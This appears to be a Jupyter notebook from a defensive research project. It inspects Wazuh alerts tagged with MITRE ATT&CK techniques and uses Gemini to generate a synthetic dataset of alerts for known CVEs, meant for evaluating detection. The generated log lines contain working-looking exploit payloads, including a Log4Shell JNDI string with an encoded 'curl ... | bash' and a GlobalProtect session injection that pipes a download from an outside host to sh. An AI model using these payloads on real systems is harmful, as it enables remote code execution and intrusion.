245446,"{""timestamp"": ""2025-12-15T11:10:46.935+0000"", ...",['T1078'],['T1543.002'],4,15,data/manifestations_raw\steps\4-15\wazuh/logs/...,2025-12-15 11:10:46.935000+00:00,3,PAM: Login session opened.,5501,17,"['pam', 'syslog', 'authentication_success']","{'id': '001', 'name': 'inetfw', 'ip': '192.168...",{'name': 'wazuh'},1.765797e+09,Dec 15 11:10:45 inetfw sudo: pam_unix(sudo:ses...,"{'srcuser': 'john', 'dstuser': 'root(uid=0)', ..."
245447,"{""timestamp"": ""2025-12-15T11:10:46.937+0000"", ...",[],['T1543.002'],4,15,data/manifestations_raw\steps\4-15\wazuh/logs/...,2025-12-15 11:10:46.937000+00:00,3,PAM: Login session closed.,5502,10,"['pam', 'syslog']","{'id': '001', 'name': 'inetfw', 'ip': '192.168...",{'name': 'wazuh'},1.765797e+09,Dec 15 11:10:45 inetfw sudo: pam_unix(sudo:ses...,{'dstuser': 'root'}
245448,"{""timestamp"": ""2025-12-15T11:10:46.939+0000"", ...",['T1040'],['T1543.002'],4,15,data/manifestations_raw\steps\4-15\wazuh/logs/...,2025-12-15 11:10:46.939000+00:00,8,Interface entered in promiscuous(sniffing) mode.,5104,1,"['syslog', 'linuxkernel', 'promisc']","{'id': '001', 'name': 'inetfw', 'ip': '192.168...",{'name': 'wazuh'},1.765797e+09,Dec 15 11:10:45 inetfw kernel: [ 1638.994908] ...,{}
245449,"{""timestamp"": ""2025-12-15T11:10:46.984+0000"", ...",['T1548.003'],['T1543.002'],4,15,data/manifestations_raw\steps\4-15\wazuh/logs/...,2025-12-15 11:10:46.984000+00:00,3,Successful sudo to ROOT executed.,5402,8,"['syslog', 'sudo']","{'id': '001', 'name': 'inetfw', 'ip': '192.168...",{'name': 'wazuh'},1.765797e+09,Dec 15 11:10:45 inetfw sudo[4245]: root : ...,"{'srcuser': 'root', 'dstuser': 'root', 'tty': ..."
245450,"{""timestamp"": ""2025-12-15T11:10:47.005+0000"", ...",['T1078'],['T1543.002'],4,15,data/manifestations_raw\steps\4-15\wazuh/logs/...,2025-12-15 11:10:47.005000+00:00,3,PAM: Login session opened.,5501,18,"['pam', 'syslog', 'authentication_success']","{'id': '001', 'name': 'inetfw', 'ip': '192.168...",{'name': 'wazuh'},1.765797e+09,Dec 15 11:10:45 inetfw sudo[4245]: pam_unix(su...,"{'srcuser': 'john', 'dstuser': 'root(uid=0)', ..."
245451,"{""timestamp"": ""2025-12-15T11:10:47.065+0000"", ...",['T1040'],['T1543.002'],4,15,data/manifestations_raw\steps\4-15\wazuh/logs/...,2025-12-15 11:10:47.065000+00:00,8,Interface entered in promiscuous(sniffing) mode.,5104,2,"['syslog', 'linuxkernel', 'promisc']","{'id': '001', 'name': 'inetfw', 'ip': '192.168...",{'name': 'wazuh'},1.765797e+09,Dec 15 11:10:45 inetfw kernel: device ens3 ent...,{}


In [89]:
data_repo[data_repo['timestamp'] == alert_time]

,alert,real_ttps,possible_ttps,scenario,step,alert_path,timestamp,level,description,rule_id,fired_times,groups,agent,manager,alert_id,full_log,data
245448,"{""timestamp"": ""2025-12-15T11:10:46.939+0000"", ...",['T1040'],['T1543.002'],4,15,data/manifestations_raw\steps\4-15\wazuh/logs/...,2025-12-15 11:10:46.939000+00:00,8,Interface entered in promiscuous(sniffing) mode.,5104,1,"['syslog', 'linuxkernel', 'promisc']","{'id': '001', 'name': 'inetfw', 'ip': '192.168...",{'name': 'wazuh'},1.765797e+09,Dec 15 11:10:45 inetfw kernel: [ 1638.994908] ...,{}


In [103]:
previous_alerts

,timestamp,level,description,fired_times,full_log
245446,2025-12-15 11:10:46.935000+00:00,3,PAM: Login session opened.,17,Dec 15 11:10:45 inetfw sudo: pam_unix(sudo:ses...
245447,2025-12-15 11:10:46.937000+00:00,3,PAM: Login session closed.,10,Dec 15 11:10:45 inetfw sudo: pam_unix(sudo:ses...


In [104]:
subsequent_alerts

,timestamp,level,description,fired_times,full_log
245449,2025-12-15 11:10:46.984000+00:00,3,Successful sudo to ROOT executed.,8,Dec 15 11:10:45 inetfw sudo[4245]: root : ...
245450,2025-12-15 11:10:47.005000+00:00,3,PAM: Login session opened.,18,Dec 15 11:10:45 inetfw sudo[4245]: pam_unix(su...


In [21]:
for doc in response['hits']['hits']:
    print(doc['_source']['external_references'][0]['url'])
    

https://attack.mitre.org/techniques/T1055/011
https://attack.mitre.org/techniques/T1053/005
https://attack.mitre.org/techniques/T1205/002
https://attack.mitre.org/techniques/T1560/001
https://attack.mitre.org/techniques/T1021/005
https://attack.mitre.org/techniques/T1047
https://attack.mitre.org/techniques/T1687
https://attack.mitre.org/techniques/T1113
https://attack.mitre.org/techniques/T1027/011
https://attack.mitre.org/techniques/T1037
https://attack.mitre.org/techniques/T1557
https://attack.mitre.org/techniques/T1033
https://attack.mitre.org/techniques/T1583
https://attack.mitre.org/techniques/T1218/011
https://attack.mitre.org/techniques/T1613
https://attack.mitre.org/techniques/T1583/007
https://attack.mitre.org/techniques/T1132/001
https://attack.mitre.org/techniques/T1027/009
https://attack.mitre.org/techniques/T1556/003
https://attack.mitre.org/techniques/T1578/004
https://attack.mitre.org/techniques/T1592
https://attack.mitre.org/techniques/T1596/003
https://attack.mitre.org

In [ ]:
from langchain_openai import ChatOpenAI

from dotenv import load_dotenv
import os

load_dotenv()

API_KEY = os.getenv('GEMINI_TOKEN')

llm = ChatGoogleGenerativeAI(model='gemini-3.5-flash', api_key=API_KEY)

In [59]:
import os
import json
import datetime
from langchain_google_genai import ChatGoogleGenerativeAI
from elasticsearch import Elasticsearch
from dotenv import load_dotenv
import os

load_dotenv()

API_KEY = os.getenv('GEMINI_TOKEN')

# 1. Inicialización de Clientes
llm = ChatGoogleGenerativeAI(
    model="gemini-3-flash-preview",
    api_key=API_KEY,
    temperature=0.2,
    response_mime_type="application/json")

es = Elasticsearch(
    "http://localhost:9200",
)

dataset_evaluacion = []

def obtener_contexto_cve(cve_id):
    try:
        res = es.search(index="kev_cve_index_bge", query={"match": {"id": cve_id}})
        if res['hits']['hits']:
            return res['hits']['hits'][0]['_source']['text_to_search']
    except Exception as e:
        print(f"Error consultando ES para {cve_id}: {e}")
    print(f"Error consultando ES para {cve_id}")
    return {"description": "Generic vulnerability data", "affected_component": "Unknown"}


In [38]:
# Clasificación de los 20 CVEs - Versión blindada para KEV CISA
cves_limpios = [
    "CVE-2021-44228",  # Log4Shell (Web)
    "CVE-2017-0144",   # EternalBlue (Red - SMB)
    "CVE-2024-3400",   # Palo Alto GlobalProtect (Sistemas/Firewall - REEMPLAZO)
    "CVE-2022-0847",   # Dirty Pipe (Sistema - Linux Kernel Escalada Local)
    "CVE-2026-35273",  # Oracle PeopleSoft (Web)
    "CVE-2020-1472",   # Zerologon (Windows Active Directory / RPC)
    "CVE-2019-11510",  # Pulse Secure VPN (Web/Red)
    "CVE-2021-3156",   # Baron Samedit (Sistema - Sudo Escalada Local)
    "CVE-2020-14882",  # Oracle WebLogic Server RCE (Infraestructura corporativa)
    "CVE-2014-6271"    # Shellshock (Sistema/Web)
]

cves_ofuscados = [
    "CVE-2021-26855",  # ProxyLogon (Web Exchange - Tráfico modificado)
    "CVE-2021-4034",   # PwnKit (Sistema - Escalada Local)
    "CVE-2017-5638",   # Apache Struts2 (Web)
    "CVE-2019-19781",  # Citrix ADC (Web/Red)
    "CVE-2023-22515"   # Confluence Priv Escalation (Web)
]

cves_falsos_pos = [
    "CVE-2019-0708",   # BlueKeep (Red - RDP. Puerto cerrado)
    "CVE-2022-26134",  # Confluence OGNL (Web - Bloqueado por WAF)
    "CVE-2023-46604",  # Apache ActiveMQ (Infraestructura - Conexión rechazada)
    "CVE-2018-13379",  # Fortinet VPN (Red - 404)
    "CVE-2019-10149"   # Exim Mail Server RCE (Red/Sistema - SMTP Server Reject)
]

for id in cves_limpios + cves_ofuscados + cves_falsos_pos:
    print(obtener_contexto_cve(id))

Vulnerability CVE-2021-44228: Apache Log4j2 Remote Code Execution Vulnerability. Apache Log4j2 2.0-beta9 through 2.15.0 (excluding security releases 2.12.2, 2.12.3, and 2.3.1) JNDI features used in configuration, log messages, and parameters do not protect against attacker controlled LDAP and other JNDI related endpoints. An attacker who can control log messages or log message parameters can execute arbitrary code loaded from LDAP servers when message lookup substitution is enabled. From log4j 2.15.0, this behavior has been disabled by default. From version 2.16.0 (along with 2.12.2, 2.12.3, and 2.3.1), this functionality has been completely removed. Note that this vulnerability is specific to log4j-core and does not affect log4net, log4cxx, or other Apache Logging Services projects.. Affected products: Vendor: Apache Software Foundation, Product: Apache Log4j2
Vulnerability CVE-2017-0144: Microsoft SMBv1 Remote Code Execution Vulnerability. The SMBv1 server in Microsoft Windows Vista 

In [72]:
# =====================================================================
# BLOQUE 1: SIMULACIÓN DE EXPLOTACIÓN LIMPIA (Éxito del atacante)
# =====================================================================
prompt_limpio_template = """
Actúa como el motor de telemetría o logging nativo del componente afectado por esta vulnerabilidad:
{cve_info}

Tu infraestructura está sufriendo un ataque informático real. Debes generar el registro crudo ('full_log') y los campos indexados por Wazuh simulando el exploit EN VIVO.

REGLAS DE SIMULACIÓN MULTI-ENTORNO:
1. Queda PROHIBIDO escribir el ID de la vulnerabilidad (no pongas '{cve}') en el log ni en las descripciones.
2. Determina la naturaleza del CVE:
   - Si es de RED (ej. SMB, SSH, RDP): Actúa como un IDS (Suricata/Snort) o un log de auditoría de red corporativo.
   - Si es del SISTEMA (Escalada local): Actúa como Syslog, Linux Auditd (/var/log/audit/audit.log) o el Visor de Eventos de Windows (Security Log).
   - Si es WEB o Base de Datos: Actúa como el access_log o el query_log correspondiente.
3. 'full_log': Genera la línea de texto exacta con la sintaxis nativa de ese sistema (ej. formato de Suricata EVE JSON, alertas de Auditd con syscalls reales, o eventos de Windows con EventID). Incluye el payload real de explotación (como buffers corruptos, comandos inyectados, opcodes o manipulación de memoria).
- CRÍTICO: Si el log incluye payloads binarios, hexadecimales o de memoria (como bytes nulos \x00 o \u0000), trúncalos obligatoriamente tras los primeros 15 o 20 caracteres agregando '[...TRUNCATED_PAYLOAD...]' al final. El 'full_log' total no debe superar bajo ningún concepto los 400 caracteres de longitud total.
4. 'decoder': Asigna el decodificador correcto de Wazuh según el tipo de log (ej: 'json', 'suricata', 'windows', 'syslog', 'web-accesslog').
5. 'location': La ruta absoluta por defecto donde se guarda ese log real en producción (ej: /var/log/suricata/eve.json, C:\\Windows\\System32\\Winevt\\Logs\\Security.evtx, /var/log/audit/audit.log, etc.).

Devuelve estrictamente un objeto JSON con esta estructura exacta:
{{
    "original_alert": {{
        "timestamp": "2026-06-16T10:30:00.000+0000",
        "rule": {{ 
            "level": 12, 
            "description": "Critical security event: Anomalous behavior or exploit payload detected by system monitoring.", 
            "id": "100200", 
            "firedtimes": 1, 
            "mail": true, 
            "groups": ["attack", "security_event", "mitre_t1190"] 
        }},
        "agent": {{ "id": "010", "name": "core-infrastructure-node", "ip": "172.16.5.10" }},
        "full_log": "AQUÍ EMITE EL LOG CRUDO DEL COMPONENTE (Sintaxis nativa del sistema operativo, red o app con el payload real)",
        "decoder": {{ "name": "NOMBRE_DEL_DECODER_ADAPTADO" }},
        "data": {{ 
            "protocol": "MÉTODO O PROTOCOLO (TCP, UDP, HTTP, SYSCALL, etc.)", 
            "srcip": "185.220.101.9", 
            "id": "ESTADO_O_EVENT_ID_REAL (ej: 4624, 200, u opcode de retorno)", 
            "url": "RUTA_O_PROCESO_ATACADO_SIN_MENCIONAR_EL_CVE"
        }},
        "location": "RUTA_REAL_DEL_LOG_EN_EL_SISTEMA"
    }},
    "mapped_cve": "{cve}", 
    "tipo_dataset": "limpio" 
}}
"""

for cve in cves_limpios[3:]:
    print(f'Generando alerta para {cve}...')
    contexto = obtener_contexto_cve(cve)
    prompt = prompt_limpio_template.format(cve=cve, cve_info=contexto)
    response = llm.invoke(prompt)
    dataset_evaluacion.append(json.loads(response.content[0]['text']))

# =====================================================================
# BLOQUE 2: SIMULACIÓN CON OFUSCACIÓN / EVASIÓN DE DEFENSAS
# =====================================================================
prompt_ofuscado_template = """
Actúa como la telemetría del componente afectado por esta vulnerabilidad mientras un atacante avanzado intenta evadir los sistemas de monitoreo:
{cve_info}

REGLAS DE SIMULACIÓN MULTI-ENTORNO:
1. Queda PROHIBIDO escribir el ID de la vulnerabilidad (no pongas '{cve}') en el log ni en las descripciones.
2. El atacante está ocultando el ataque. Si es un ataque web, usará codificaciones complejas; si es un ataque de sistema o escalada local, usará ejecutables renombrados o rutas temporales ocultas (ej. `/tmp/...` con caracteres especiales); si es de red, usará fragmentación o payloads codificados.
3. El 'full_log' debe reflejar fielmente este comportamiento sucio y evasivo en la sintaxis nativa del componente (Windows Logs, Linux Auditd, logs de red).
- CRÍTICO: Si el log incluye payloads binarios, hexadecimales o de memoria (como bytes nulos \x00 o \u0000), trúncalos obligatoriamente tras los primeros 15 o 20 caracteres agregando '[...TRUNCATED_PAYLOAD...]' al final. El 'full_log' total no debe superar bajo ningún concepto los 400 caracteres de longitud total.
Devuelve estrictamente un objeto JSON con esta estructura exacta:
{{
    "original_alert": {{
        "timestamp": "2026-06-16T10:32:00.000+0000",
        "rule": {{ 
            "level": 12, 
            "description": "Suspicious activity: Evasion technique or obfuscated exploit attempt identified.", 
            "id": "100300", 
            "firedtimes": 1, 
            "mail": true, 
            "groups": ["attack", "evasion"] 
        }},
        "agent": {{ "id": "011", "name": "core-infrastructure-node", "ip": "172.16.5.11" }},
        "full_log": "AQUÍ EMITE EL LOG CRUDO DEL COMPONENTE CON EL PAYLOAD OFUSCADO O LA TÉCNICA DE EVASIÓN REAL",
        "decoder": {{ "name": "NOMBRE_DEL_DECODER_ADAPTADO" }},
        "data": {{ 
            "protocol": "MÉTODO O PROTOCOLO REAL", 
            "srcip": "185.220.101.9", 
            "id": "ESTADO_O_EVENT_ID_REAL", 
            "url": "RUTA_O_PROCESO_ATACADO_OFUSCADO", 
        }},
        "location": "RUTA_REAL_DEL_LOG_EN_EL_SISTEMA"
    }},
    "mapped_cve": "{cve}", 
    "tipo_dataset": "ofuscado" 
}}
"""

for cve in cves_ofuscados:
    print(f'Generando alerta para {cve}...')
    contexto = obtener_contexto_cve(cve)
    prompt = prompt_ofuscado_template.format(cve=cve, cve_info=contexto)
    response = llm.invoke(prompt)
    dataset_evaluacion.append(json.loads(response.content[0]['text']))

# =====================================================================
# BLOQUE 3: SIMULACIÓN DE FALSOS POSITIVOS TÉCNICOS (Ataque Mitigado/Inocuo)
# =====================================================================
prompt_falso_pos_template = """
Actúa como el sistema de logging perimetral o del sistema operativo corporativo. Un escáner o atacante está lanzando un exploit contra esta vulnerabilidad, PERO el ataque ha sido completamente bloqueado, mitigado o el puerto/servicio está cerrado:
{cve_info}

REGLAS DE SIMULACIÓN MULTI-ENTORNO:
1. Queda PROHIBIDO escribir el ID de la vulnerabilidad (no pongas '{cve}') en el log ni en las descripciones.
2. El 'full_log' debe registrar el intento del ataque, pero los indicadores de éxito deben demostrar que falló rotundamente:
   - Si es de Red (ej. BlueKeep/RDP): El log de red debe mostrar un 'RST' de TCP, o conexión rechazada porque el servicio no escucha ahí.
   - Si es Web: Debe devolver un código '403 Forbidden' o '404' emitido por el WAF.
   - Si es de Sistema: El log de Auditd/Windows debe mostrar 'Access Denied', un fallo en los privilegios o un error de ejecución que impidió la escalada.
   - CRÍTICO: Si el log incluye payloads binarios, hexadecimales o de memoria (como bytes nulos \x00 o \u0000), trúncalos obligatoriamente tras los primeros 15 o 20 caracteres agregando '[...TRUNCATED_PAYLOAD...]' al final. El 'full_log' total no debe superar bajo ningún concepto los 400 caracteres de longitud total.
3. Adapta el 'decoder', la 'location' y el 'full_log' a la tecnología real de la vulnerabilidad.

Devuelve estrictamente un objeto JSON con esta estructura exacta:
{{
    "original_alert": {{
        "timestamp": "2026-06-16T10:35:00.000+0000",
        "rule": {{ 
            "level": 5, 
            "description": "Security event: Reconnaissance or mitigated exploit attempt detected.", 
            "id": "100400", 
            "firedtimes": 1, 
            "mail": false, 
            "groups": ["recon", "mitigated"] 
        }},
        "agent": {{ "id": "012", "name": "core-infrastructure-node", "ip": "172.16.5.12" }},
        "full_log": "AQUÍ EMITE EL LOG CRUDO QUE DEMUESTRE QUE EL EXPLOIT FUE RECHAZADO O FALLÓ (Muestra el error o el bloqueo)",
        "decoder": {{ "name": "NOMBRE_DEL_DECODER_ADAPTADO" }},
        "data": {{ 
            "protocol": "MÉTODO O PROTOCOLO REAL", 
            "srcip": "185.220.101.9", 
            "id": "CÓDIGO_DE_FALLO_O_RECHAZO (ej: 403, 404, Connection Refused, Access Denied)", 
            "url": "RUTA_O_PROCESO_RECHAZADO"
        }},
        "location": "RUTA_REAL_DEL_LOG_EN_EL_SISTEMA"
    }},
    "mapped_cve": "{cve}", 
    "tipo_dataset": "falso_positivo" 
}}
"""

for cve in cves_falsos_pos:
    print(f'Generando alerta para {cve}...')
    contexto = obtener_contexto_cve(cve)
    prompt = prompt_falso_pos_template.format(cve=cve, cve_info=contexto)
    response = llm.invoke(prompt)
    dataset_evaluacion.append(json.loads(response.content[0]['text']))

# 3. Exportación
with open("dataset_wazuh_infraestructura.json", "w", encoding="utf-8") as f:
    json.dump(dataset_evaluacion, f, indent=4, ensure_ascii=False)

print(f"¡Dataset multi-tecnología generado! Alertas listas para tu RAG: {len(dataset_evaluacion)}")

Generando alerta para CVE-2022-0847...
Generando alerta para CVE-2026-35273...
Generando alerta para CVE-2020-1472...
Generando alerta para CVE-2019-11510...
Generando alerta para CVE-2021-3156...
Generando alerta para CVE-2020-14882...
Generando alerta para CVE-2014-6271...
Generando alerta para CVE-2021-26855...
Generando alerta para CVE-2021-4034...
Generando alerta para CVE-2017-5638...
Generando alerta para CVE-2019-19781...
Generando alerta para CVE-2023-22515...
Generando alerta para CVE-2019-0708...


ChatGoogleGenerativeAIError: Error calling model 'gemini-3-flash-preview' (RESOURCE_EXHAUSTED): 429 RESOURCE_EXHAUSTED. {'error': {'code': 429, 'message': 'You exceeded your current quota, please check your plan and billing details. For more information on this error, head to: https://ai.google.dev/gemini-api/docs/rate-limits. To monitor your current usage, head to: https://ai.dev/rate-limit. \n* Quota exceeded for metric: generativelanguage.googleapis.com/generate_content_free_tier_requests, limit: 20, model: gemini-3-flash\nPlease retry in 13.870835784s.', 'status': 'RESOURCE_EXHAUSTED', 'details': [{'@type': 'type.googleapis.com/google.rpc.Help', 'links': [{'description': 'Learn more about Gemini API quotas', 'url': 'https://ai.google.dev/gemini-api/docs/rate-limits'}]}, {'@type': 'type.googleapis.com/google.rpc.QuotaFailure', 'violations': [{'quotaMetric': 'generativelanguage.googleapis.com/generate_content_free_tier_requests', 'quotaId': 'GenerateRequestsPerDayPerProjectPerModel-F

In [69]:
alert = "{\n    \"original_alert\": {\n        \"timestamp\": \"2026-06-16T10:30:00.000+0000\",\n        \"rule\": { \n            \"level\": 12, \n            \"description\": \"Critical security event: Anomalous behavior or exploit payload detected by system monitoring.\", \n            \"id\": \"100200\", \n            \"firedtimes\": 1, \n            \"mail\": true, \n            \"groups\": [\"attack\", \"security_event\", \"mitre_t1190\"] \n        },\n        \"agent\": { \"id\": \"010\", \"name\": \"core-infrastructure-node\", \"ip\": \"172.16.5.10\" },\n        \"full_log\": \"185.220.101.9 - - [16/Jun/2026:10:30:00 +0000] \\\"POST /global-protect/login.esp HTTP/1.1\\\" 200 54 \\\"-\\\" \\\"curl/7.81.0\\\" \\\"SESSID=./../../../opt/panlogs/tmp/device_telemetry/minute/cmd=\\\\`curl 185.220.101.9/x|sh\\\\`\\\"\",\n        \"decoder\": { \"name\": \"web-accesslog\" },\n        \"data\": { \n            \"protocol\": \"HTTP\", \n            \"srcip\": \"185.220.101.9\", \n            \"id\": \"200\", \n            \"url\": \"/global-protect/login.esp\"\n        },\n        \"location\": \"/var/log/nginx/sslgpw_access.log\"\n    },\n    \"mapped_cve\": \"CVE-2024-3400\", \n    \"tipo_dataset\": \"limpio\" \n}"
print(alert)

{
    "original_alert": {
        "timestamp": "2026-06-16T10:30:00.000+0000",
        "rule": { 
            "level": 12, 
            "description": "Critical security event: Anomalous behavior or exploit payload detected by system monitoring.", 
            "id": "100200", 
            "firedtimes": 1, 
            "mail": true, 
            "groups": ["attack", "security_event", "mitre_t1190"] 
        },
        "agent": { "id": "010", "name": "core-infrastructure-node", "ip": "172.16.5.10" },
        "full_log": "185.220.101.9 - - [16/Jun/2026:10:30:00 +0000] \"POST /global-protect/login.esp HTTP/1.1\" 200 54 \"-\" \"curl/7.81.0\" \"SESSID=./../../../opt/panlogs/tmp/device_telemetry/minute/cmd=\\`curl 185.220.101.9/x|sh\\`\"",
        "decoder": { "name": "web-accesslog" },
        "data": { 
            "protocol": "HTTP", 
            "srcip": "185.220.101.9", 
            "id": "200", 
            "url": "/global-protect/login.esp"
        },
        "location": "/var/log/ngin

In [70]:
dataset_evaluacion.append(json.loads(alert))

In [73]:
dataset_evaluacion

[{'original_alert': {'timestamp': '2026-06-16T10:30:00.000+0000',
   'rule': {'level': 12,
    'description': 'Critical security event: Anomalous behavior or exploit payload detected by system monitoring.',
    'id': '100200',
    'firedtimes': 1,
    'mail': True,
    'groups': ['attack', 'security_event', 'mitre_t1190']},
   'agent': {'id': '010',
    'name': 'core-infrastructure-node',
    'ip': '172.16.5.10'},
   'full_log': '185.220.101.9 - - [16/Jun/2026:10:30:00 +0000] "POST /api/v1/auth HTTP/1.1" 500 1244 "-" "${jndi:ldap://185.220.101.9:1389/Basic/Command/Base64/Y3VybCBodHRwOi8vMTg1LjIyMC4xMDEuOS9zaGVsbC5zaCB8IGJhc2g=}"',
   'decoder': {'name': 'web-accesslog'},
   'data': {'protocol': 'HTTP',
    'srcip': '185.220.101.9',
    'id': '500',
    'url': '/api/v1/auth'},
   'location': '/var/log/nginx/access.log'},
  'mapped_cve': 'CVE-2021-44228',
  'tipo_dataset': 'limpio'},
 {'original_alert': {'timestamp': '2026-06-16T10:30:00.000+0000',
   'rule': {'level': 12,
    'descripti

In [75]:
# 3. Exportación
with open("data/dataset_sintetico_cve.json", "w", encoding="utf-8") as f:
    json.dump(dataset_evaluacion, f, indent=4, ensure_ascii=False)

In [87]:
import json
import pandas as pd
import random

parsed_alerts = []

for e in dataset_evaluacion:
    real_cves = [e['mapped_cve']]
    dataset_type = e['tipo_dataset']
    alert_data = e['original_alert']
    timestamp = alert_data.get("timestamp", "")
    rule = alert_data.get("rule", {})
    level = rule.get("level", "")
    desc = rule.get("description", "")
    rule_id = rule.get("id", "")
    fired_times = rule.get("firedtimes", "")
    groups = rule.get("groups", [])
    agent = alert_data.get("agent", {})
    manager = alert_data.get("manager", {})
    alert_id = alert_data.get("id", str(random.randint(10000000, 99999999)))
    log = alert_data.get("full_log", "")
    log_data = alert_data.get("data", {})

    parsed_alerts.append([json.dumps(alert_data), real_cves, dataset_type, timestamp, level, desc, rule_id, fired_times, groups, agent, manager, alert_id, log, log_data])

df = pd.DataFrame(parsed_alerts, columns=["alert", "real_cves", "dataset_type", "timestamp", "level", "description", "rule_id", "fired_times", "groups", "agent", "manager", "alert_id", "full_log", "data"])
df.to_csv('data/dataset_sintetico_cves.csv', index=False)

In [85]:
alert_data

{'timestamp': '2026-06-16T10:32:00.000+0000',
 'rule': {'level': 12,
  'description': 'Suspicious activity: Evasion technique or obfuscated exploit attempt identified.',
  'id': '100300',
  'firedtimes': 1,
  'mail': True,
  'groups': ['attack', 'evasion']},
 'agent': {'id': '011',
  'name': 'core-infrastructure-node',
  'ip': '172.16.5.11'},
 'full_log': '185.220.101.9 - - [16/Jun/2026:10:32:00 +0000] "POST /%73%65%74%75%70/%2e%2e/%73%65%74%75%70/%73%65%74%75%70%61%64%6d%69%6e%69%73%74%72%61%74%6f%72.action HTTP/1.1" 200 4512 "-" "Mozilla/5.0" payload=\\x75\\x73\\x65\\x72\\x6e\\x61\\x6d\\x65\\x3d\\x61\\x64\\x6d\\x69\\x6e\\x26\\x70[...TRUNCATED_PAYLOAD...]',
 'decoder': {'name': 'web-accesslog-confluence'},
 'data': {'protocol': 'POST',
  'srcip': '185.220.101.9',
  'id': '200',
  'url': '/%73%65%74%75%70/%2e%2e/%73%65%74%75%70/%73%65%74%75%70%61%64%6d%69%6e%69%73%74%72%61%74%6f%72.action'},
 'location': '/var/atlassian/application-data/confluence/logs/access_log.2026-06-16'}